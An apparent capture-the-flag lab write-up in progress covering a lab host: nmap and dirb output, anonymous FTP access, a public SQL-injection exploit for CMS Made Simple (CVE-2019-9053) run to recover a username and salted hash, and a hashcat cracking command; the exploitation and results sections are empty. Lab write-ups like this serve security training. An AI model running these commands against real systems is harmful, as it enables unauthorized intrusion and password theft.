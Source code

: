 
# Simple CTF 

## Summary:
No summary present 😢


## (----------RECON----------)
Target IP Address: 10.10.231.22
Attack Box IP Address: 10.10.97.62
test update
webserver: http://10.10.231.22:80

## (----------SCANNING---------)

#### Port Scan Results
Nmap scan report for 10.10.231.22
Host is up (0.00066s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.97.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2 df
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

MAC Address: 02:AD:35:BF:50:35 (Unknown)
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 3.X (98%), Crestron 2-Series (90%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series
Aggressive OS guesses: Linux 3.10 - 3.13 (98%), Linux 3.8 (92%), Crestron XPanel control system (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

#### Trace Route Results
TRACEROUTE
HOP RTT     ADDRESS
1   0.66 ms 10.10.231.22

#### Open Ports Identified 
OPEN PORTS: 
21 - FTP
80 - http (webserver)
2222 - ssh (high level port)

#### Investigation

##### FTP Server
Investigating the FTP server we see Anonymous FTP login allowed
Logging in with:
```plaintext
ftp 10.10.231.22
```
Results:
Connected to 10.10.231.22.
220 (vsFTPd 3.0.3)
Name (10.10.231.22:root):

Providing the username: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

Enumerating the files/directories on the server we see the following hierarchal tree:
Location: ftp> 
Directories
| _ pub
   | _ ForMitch.txt
   
1 file identified on FPT server within the directory named "pub"

extracting this file using:
```plaintext
mget *
```

Exiting the FTP server with `bye`

Viewing the contents of the extracted file provides:
*Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!*

This identifies potential weak passwords on the host 

##### Web server find
![[Pasted image 20250216165527.png]]
\- Default apache2 ubuntu page 

fuzzing directories:
```plaintext
dirb http://10.10.231.22/80 common.txt
```

### directory results: 

DIRB v2.22    
By The Dark Raver

-----------------

START_TIME: Sun Feb 16 17:07:34 2025
URL_BASE: http://10.10.231.22:80/
WORDLIST_FILES: common.txt

-----------------

GENERATED WORDS: 1942                                                          

---- Scanning URL: http://10.10.231.22:80/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/                                       
---- Entering directory: http://10.10.231.22:80/simple/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/admin/                            
==> DIRECTORY: http://10.10.231.22:80/simple/assets/                           
==> DIRECTORY: http://10.10.231.22:80/simple/doc/                              
==> DIRECTORY: http://10.10.231.22:80/simple/lib/                              
==> DIRECTORY: http://10.10.231.22:80/simple/modules/                          
==> DIRECTORY: http://10.10.231.22:80/simple/tmp/                              
==> DIRECTORY: http://10.10.231.22:80/simple/uploads/                               
---- Entering directory: http://10.10.231.22:80/simple/admin/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/admin/lang/                       
==> DIRECTORY: http://10.10.231.22:80/simple/admin/plugins/                    
==> DIRECTORY: http://10.10.231.22:80/simple/admin/templates/                  
==> DIRECTORY: http://10.10.231.22:80/simple/admin/themes/                        
---- Entering directory: http://10.10.231.22:80/simple/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/doc/ ----    
---- Entering directory: http://10.10.231.22:80/simple/lib/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/lib/assets/                       
==> DIRECTORY: http://10.10.231.22:80/simple/lib/classes/                      
==> DIRECTORY: http://10.10.231.22:80/simple/lib/lang/                         
==> DIRECTORY: http://10.10.231.22:80/simple/lib/plugins/                           
---- Entering directory: http://10.10.231.22:80/simple/modules/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/tmp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)     
---- Entering directory: http://10.10.231.22:80/simple/uploads/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/uploads/images/                        
---- Entering directory: http://10.10.231.22:80/simple/admin/lang/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/plugins/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/templates/ ----     
---- Entering directory: http://10.10.231.22:80/simple/admin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)   
---- Entering directory: http://10.10.231.22:80/simple/lib/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)    
---- Entering directory: http://10.10.231.22:80/simple/lib/classes/ ----
==> DIRECTORY: http://10.10.231.22:80/simple/lib/classes/internal/                
---- Entering directory: http://10.10.231.22:80/simple/lib/lang/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)    
---- Entering directory: http://10.10.231.22:80/simple/lib/plugins/ ----    
---- Entering directory: http://10.10.231.22:80/simple/uploads/images/ ----    
---- Entering directory: http://10.10.231.22:80/simple/lib/classes/internal/ ----

-----------------
END_TIME: Sun Feb 16 17:07:51 2025
DOWNLOADED: 25246 - FOUND: 0

above shows that the directory /simple is a CMS - content management system 
![[Pasted image 20250216194440.png]]
-  CMS Made Simple version 2.2.8

Researching this version of the Content management system has revealed:
32 results for potential exploitation within exploit DB
Identified the following exploit that is most suitable per CMS version:
Released: 2019-04-02	
Title: CMS Made Simple < 2.2.10 - SQL Injection	
Type: WebApps	
Platform: PHP	
Author: Daniele Scanu
CVE ID: CVE-2019-9053

proceeded to download this executable - titled "46635.py"

added the provided wordlist to the python script located under - 
`/usr/share/seclists/Passwords/Common-Credentials/best110.txt`

Identified the script required python 2

further to execute this exploit using the following command:
```plaintext
python 46635.py -u http://10.10.231.22/simple
```

this script will then attempt to identify the following
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

As we can see by the above results the password for the account is hashed and salted
this will require cracking using the following command:
```bash
hashcat -O -a 0 -m 10 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2DDD
```



### file results

```bash
dirb http://10.10.231.22:80 -x ext.txt
```

---- Scanning URL: http://10.10.231.22:80/ ----
+ http://10.10.231.22:80/index.html (CODE:200|SIZE:11321)                                           
+ http://10.10.231.22:80/robots.txt (CODE:200|SIZE:929)          


investigating the contents of robots.txt shows the following:

##### Robots.txt content:
\#
\# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
\#
\#   This file tells search engines not to index your CUPS server.
\#
\#   Copyright 1993-2003 by Easy Software Products.
\#
\#   These coded instructions, statements, and computer programs are the
\#   property of Easy Software Products and are protected by Federal
\#   copyright law.  Distribution and use rights are outlined in the file
\#   "LICENSE.txt" which should have been included with this file.  If this
\#   file is missing or damaged please contact Easy Software Products
\#   at:
\#
\#       Attn: CUPS Licensing Information
\#       Easy Software Products
\#       44141 Airport View Drive, Suite 204
\#       Hollywood, Maryland 20636-3111 USA
\#
\#       Voice: (301) 373-9600
\#       EMail: cups-info@cups.org
\#         WWW: http://www.cups.org
\#

User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
\#
\# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
\#




## (----------EXPLOITATION----------)


## (----------RESULTS-----------)